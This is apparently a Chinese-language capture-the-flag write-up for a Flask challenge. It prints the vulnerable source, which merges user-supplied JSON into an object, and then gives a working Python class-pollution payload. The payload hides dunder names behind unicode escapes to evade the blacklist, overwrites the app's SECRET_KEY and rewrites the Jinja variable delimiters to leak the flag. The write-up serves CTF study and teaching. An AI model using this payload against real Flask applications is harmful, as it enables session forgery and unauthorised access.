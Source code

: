 审计代码可以看到会先用 `filter` 函数检查黑名单，然后用 `json.loads` 解析 JSON 数据，而按照 JSON 的规范，遇到 `\u` 开头的 unicode 转义序列是会自动解析成 unicode 字符的

```python
@app.route('/',methods=['POST'])
def index():
    username = request.form.get('username')
    password = request.form.get('password')
    session["username"] = username
    session["password"] = password
    Evil = evil()
    if request.data:
        if filter(str(request.data)):
            return "NO POLLUTED!!!YOU NEED TO GO HOME TO SLEEP~"
        else:
            merge(json.loads(request.data), Evil)
            return "MYBE YOU SHOULD GO /ADMIN TO SEE WHAT HAPPENED"
    return render_template("index.html")

@app.route('/admin',methods=['POST', 'GET'])
def templates():
    username = session.get("username", None)
    password = session.get("password", None)
    if username and password:
        if username == "adminer" and password == app.secret_key:
            return render_template("flag.html", flag=open("/flag", "rt").read())
        else:
            return "Unauthorized"
    else:
        return f'Hello,  This is the POLLUTED page.'
```

另外，flag.html 中用的并不是 jinja 的默认语法

```html
<body>
    这又是什么jinja语法啊！
    [#flag#]
</body>
```

所以需要以下几步来拿 flag

1.  通过原型污染修改 SECRET_KEY
2.  通过原型污染修改 jinja_env，以修改引用变量的语法
3.  用 unicode 转义序列绕过黑名单检查
    ```json
    {"\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f": {"\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f": {"\u0061\u0070\u0070": {"config": {"SECRET\u005fKEY": "ctfshow"}, "\u006a\u0069\u006e\u006a\u0061\u005f\u0065\u006e\u0076": {"\u0076\u0061\u0072\u0069\u0061\u0062\u006c\u0065\u005f\u0073\u0074\u0061\u0072\u0074\u005f\u0073\u0074\u0072\u0069\u006e\u0067": "[#","\u0076\u0061\u0072\u0069\u0061\u0062\u006c\u0065\u005f\u0065\u006e\u0064\u005f\u0073\u0074\u0072\u0069\u006e\u0067": "#]"}}}}}
    ```
4.  使用和 SECRET_KEY 相同的密码登录会话，访问 /admin
